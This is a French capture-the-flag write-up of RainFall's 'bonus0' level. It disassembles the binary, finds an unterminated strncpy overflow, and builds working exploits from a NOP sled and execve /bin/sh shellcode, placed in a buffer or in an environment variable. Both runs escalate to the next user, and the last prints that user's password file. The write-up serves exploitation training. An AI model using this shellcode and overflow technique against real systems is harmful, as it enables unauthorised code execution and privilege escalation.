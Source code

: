 On désassemble le binaire:
```asm
080484b4 <p>:
 80484b4:       55                      push   ebp
 80484b5:       89 e5                   mov    ebp,esp
 80484b7:       81 ec 18 10 00 00       sub    esp,0x1018
 80484bd:       8b 45 0c                mov    eax,DWORD PTR [ebp+0xc]
 80484c0:       89 04 24                mov    DWORD PTR [esp],eax
 80484c3:       e8 e8 fe ff ff          call   80483b0 <puts@plt>
 80484c8:       c7 44 24 08 00 10 00    mov    DWORD PTR [esp+0x8],0x1000
 80484cf:       00
 80484d0:       8d 85 f8 ef ff ff       lea    eax,[ebp-0x1008]
 80484d6:       89 44 24 04             mov    DWORD PTR [esp+0x4],eax
 80484da:       c7 04 24 00 00 00 00    mov    DWORD PTR [esp],0x0
 80484e1:       e8 9a fe ff ff          call   8048380 <read@plt>
 80484e6:       c7 44 24 04 0a 00 00    mov    DWORD PTR [esp+0x4],0xa
 80484ed:       00
 80484ee:       8d 85 f8 ef ff ff       lea    eax,[ebp-0x1008]
 80484f4:       89 04 24                mov    DWORD PTR [esp],eax
 80484f7:       e8 d4 fe ff ff          call   80483d0 <strchr@plt>
 80484fc:       c6 00 00                mov    BYTE PTR [eax],0x0
 80484ff:       8d 85 f8 ef ff ff       lea    eax,[ebp-0x1008]
 8048505:       c7 44 24 08 14 00 00    mov    DWORD PTR [esp+0x8],0x14
 804850c:       00
 804850d:       89 44 24 04             mov    DWORD PTR [esp+0x4],eax
 8048511:       8b 45 08                mov    eax,DWORD PTR [ebp+0x8]
 8048514:       89 04 24                mov    DWORD PTR [esp],eax
 8048517:       e8 d4 fe ff ff          call   80483f0 <strncpy@plt>
 804851c:       c9                      leave
 804851d:       c3                      ret

0804851e <pp>:
 804851e:       55                      push   ebp
 804851f:       89 e5                   mov    ebp,esp
 8048521:       57                      push   edi
 8048522:       53                      push   ebx
 8048523:       83 ec 50                sub    esp,0x50
 8048526:       c7 44 24 04 a0 86 04    mov    DWORD PTR [esp+0x4],0x80486a0
 804852d:       08
 804852e:       8d 45 d0                lea    eax,[ebp-0x30]
 8048531:       89 04 24                mov    DWORD PTR [esp],eax
 8048534:       e8 7b ff ff ff          call   80484b4 <p>
 8048539:       c7 44 24 04 a0 86 04    mov    DWORD PTR [esp+0x4],0x80486a0
 8048540:       08
 8048541:       8d 45 e4                lea    eax,[ebp-0x1c]
 8048544:       89 04 24                mov    DWORD PTR [esp],eax
 8048547:       e8 68 ff ff ff          call   80484b4 <p>
 804854c:       8d 45 d0                lea    eax,[ebp-0x30]
 804854f:       89 44 24 04             mov    DWORD PTR [esp+0x4],eax
 8048553:       8b 45 08                mov    eax,DWORD PTR [ebp+0x8]
 8048556:       89 04 24                mov    DWORD PTR [esp],eax
 8048559:       e8 42 fe ff ff          call   80483a0 <strcpy@plt>
 804855e:       bb a4 86 04 08          mov    ebx,0x80486a4
 8048563:       8b 45 08                mov    eax,DWORD PTR [ebp+0x8]
 8048566:       c7 45 c4 ff ff ff ff    mov    DWORD PTR [ebp-0x3c],0xffffffff
 804856d:       89 c2                   mov    edx,eax
 804856f:       b8 00 00 00 00          mov    eax,0x0
 8048574:       8b 4d c4                mov    ecx,DWORD PTR [ebp-0x3c]
 8048577:       89 d7                   mov    edi,edx
 8048579:       f2 ae                   repnz scas al,BYTE PTR es:[edi]
 804857b:       89 c8                   mov    eax,ecx
 804857d:       f7 d0                   not    eax
 804857f:       83 e8 01                sub    eax,0x1
 8048582:       03 45 08                add    eax,DWORD PTR [ebp+0x8]
 8048585:       0f b7 13                movzx  edx,WORD PTR [ebx]
 8048588:       66 89 10                mov    WORD PTR [eax],dx
 804858b:       8d 45 e4                lea    eax,[ebp-0x1c]
 804858e:       89 44 24 04             mov    DWORD PTR [esp+0x4],eax
 8048592:       8b 45 08                mov    eax,DWORD PTR [ebp+0x8]
 8048595:       89 04 24                mov    DWORD PTR [esp],eax
 8048598:       e8 f3 fd ff ff          call   8048390 <strcat@plt>
 804859d:       83 c4 50                add    esp,0x50
 80485a0:       5b                      pop    ebx
 80485a1:       5f                      pop    edi
 80485a2:       5d                      pop    ebp
 80485a3:       c3                      ret

080485a4 <main>:
 80485a4:       55                      push   ebp
 80485a5:       89 e5                   mov    ebp,esp
 80485a7:       83 e4 f0                and    esp,0xfffffff0
 80485aa:       83 ec 40                sub    esp,0x40
 80485ad:       8d 44 24 16             lea    eax,[esp+0x16]
 80485b1:       89 04 24                mov    DWORD PTR [esp],eax
 80485b4:       e8 65 ff ff ff          call   804851e <pp>
 80485b9:       8d 44 24 16             lea    eax,[esp+0x16]
 80485bd:       89 04 24                mov    DWORD PTR [esp],eax
 80485c0:       e8 eb fd ff ff          call   80483b0 <puts@plt>
 80485c5:       b8 00 00 00 00          mov    eax,0x0
 80485ca:       c9                      leave
 80485cb:       c3                      ret
 80485cc:       90                      nop
 80485cd:       90                      nop
 80485ce:       90                      nop
 80485cf:       90                      nop
```
- On a une fonction **main** qui appelle la fonction **pp** qui elle-même appelle **p**.
- La fonction **pp** prend 1 buffer en paramètre puis fait appel à la fonction **p** 2 fois de suite. Puis elle copie une str dans son buffer mis en paramètre, calcule la longueur, mets un 0 à la fin, et finit par un strcat de la deuxième str dans le buffer en paramètre
- La fonction **p** prend 2 str en paramètre, une str vide de 20 bytes et une str " - ". **p** fait un puts de la str " - " puis fait un read sur l'entrée standard dans un buffer de 4096, supprime le '\n' final pour y mettre 0 à l'aide de **strchr**. Enfin, **p** copie les 20 premiers bytes du buffer de **read** dans la str vide passée en paramètre.
- le **main** fait un puts du buffer final avec les deux str de 20 bytes max + un espace entre les deux
> Nous allons commencer par voir si un buffer overflow est possible et définir l'offset. Il y a un warning dans le man de **strncpy** qu'on peut exploiter:
       Warning:  If  there  is  no  null  byte among the first n bytes of src, the string
       placed in dest will not be null-terminated.

> On utilise un pattern pour déterminer l'offset, on en génère deux pour tester les deux arguments

> Pas de system ou de /bin/bash donc il va falloir injecter du shellcode

```bash
bonus0@RainFall:~$ python /tmp/pattern.py 200 > /tmp/0pat
bonus0@RainFall:~$ cat /tmp/0pat
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
bonus0@RainFall:~$ gdb -q ./bonus0
Reading symbols from /home/user/bonus0/bonus0...(no debugging symbols found)...done.
(gdb) r
Starting program: /home/user/bonus0/bonus0
 -
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
 -
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Aa0Aa1Aa2Aa3Aa4Aa5AaAa0Aa1Aa2Aa3Aa4Aa5Aa��� Aa0Aa1Aa2Aa3Aa4Aa5Aa���

Program received signal SIGSEGV, Segmentation fault.
0x41336141 in ?? ()
```
On a bien un segfault, vérifions l'offset:
```bash
bonus0@RainFall:~$ python /tmp/pattern.py /tmp/0pat 0x41336141
offset found at: 9
```
Vérifions si c'est pour le deuxième ou le premier argument :
```bash
(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user/bonus0/bonus0
 -
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
 -
bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb
aaaaaaaaaaaaaaaaaaaabbbbbbbbbbbbbbbbbbbb��� bbbbbbbbbbbbbbbbbbbb���

Program received signal SIGSEGV, Segmentation fault.
0x62626262 in ?? ()
(gdb)
```
- Donc c'est au deuxième argument: 0x62 = b
- On voit aussi que le programme tourne jusqu'au puts du main, c'est au ret de puts que l'eip est écrasé. Or il n'y a plus d'instruction apres. Donc notre shellcode doit être éxécuté à cet endroit, il faut mettre une adresse qui écrase l'adresse de retour et qui contient le shellcode.

> Deux options:
1. Ecrire le shellcode dans le buffer en paramètre de **puts** du **main** et mettre l'adresse de ce buffer en payload
2. Exporter le shellcode en variable d'env et mettre l'adresse de cette variable d'env en payload

- Option 1:
Pour l'option 1 il faut remplir le buffer avec le shellcode en veillant bien à inclure une ***NOP sled*** afin d'être sûr de tomber sur notre shellcode, en effet, on va récupérer l'adresse du buffer dans GDB mais en mode execution les adresses peuvent être décalées dans la stack, le buffer ou on va écrire en premier fait 4096 donc on peut pour être sûr mettre une sled de 1000 bytes afin de tomber fatalement sur la bonne aadresse du buffer dans la stack, puis notres shellcode de 21 bytes puis un padding de 3074 bytes et finir par un \n pour cloturer le read sans avoir a interagir manuellement. ensuite, dans le deuxième input, un padding de 9 pour l'offset, l'adresse cible récupérée dans GDB et un padding de 7 pour finir le buffer de 20. donc ca donne:
```bash
bonus0@RainFall:~$ gdb -q ./bonus0
Reading symbols from /home/user/bonus0/bonus0...(no debugging symbols found)...done.
(gdb) b *0x80485c0
Breakpoint 1 at 0x80485c0
(gdb) r
Starting program: /home/user/bonus0/bonus0
 -
aaa
 -
bbb

Breakpoint 1, 0x080485c0 in main ()
(gdb) i r
eax            0xbffff6f6       -1073744138
ecx            0xbffff6bc       -1073744196
edx            0xbffff6fa       -1073744134
ebx            0xb7fd0ff4       -1208152076
esp            0xbffff6e0       0xbffff6e0
ebp            0xbffff728       0xbffff728
esi            0x0      0
edi            0x0      0
eip            0x80485c0        0x80485c0 <main+28>
eflags         0x200282 [ SF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
(gdb) x/s 0xbffff6f6
0xbffff6f6:      "aaa bbb"
```
avec cette adresse en payload **0xbffff6f6**:
```bash
bonus0@RainFall:~$ python -c "print '\x90'*1000+'\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80' + 'A'*3074 + '\n' + 'B'*9 + '\xf6\xf6\xff\xbf' +
'C'*7" > /tmp/payload_bonus0
bonus0@RainFall:~$ cat /tmp/payload_bonus0  - | ./bonus0
 -
 -
��������������������BBBBBBBBB����CCCCCCC��� BBBBBBBBB����CCCCCCC���
id
uid=2010(bonus0) gid=2010(bonus0) euid=2011(bonus1) egid=100(users) groups=2011(bonus1),100(users),2010(bonus0)
```
- Option 2:
Même principe sauf qu'on met le shellcode dans une variable d'environnement, il faut cependant un programme en C pour récupérer la variable d'environnement:
```bash
bonus0@RainFall:~$ cat > /tmp/getenv.c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char *argv[])
{
        printf("%s: %p\n", argv[1], getenv(argv[1]));
}

bonus0@RainFall:~$ gcc -o /tmp/bob.out /tmp/getenv.c
bonus0@RainFall:~$ export SHELLCODE=$(python -c "print '\x90'*1000+'\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'")
bonus0@RainFall:~$ /tmp/bob.out SHELLCODE
SHELLCODE: 0xbffff50e
bonus0@RainFall:~$ python -c "print 'A'*4095 + '\n' + 'B'*9 + '\x0e\xf5\xff\xbf' + 'C'*7" > /tmp/payload_bonus0                                                         bonus0@RainFall:~$ cat /tmp/payload_bonus0  - | ./bonus0
 -
 -
��������������������BBBBBBBBB���CCCCCCC��� BBBBBBBBB���CCCCCCC���
id
uid=2010(bonus0) gid=2010(bonus0) euid=2011(bonus1) egid=100(users) groups=2011(bonus1),100(users),2010(bonus0)
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```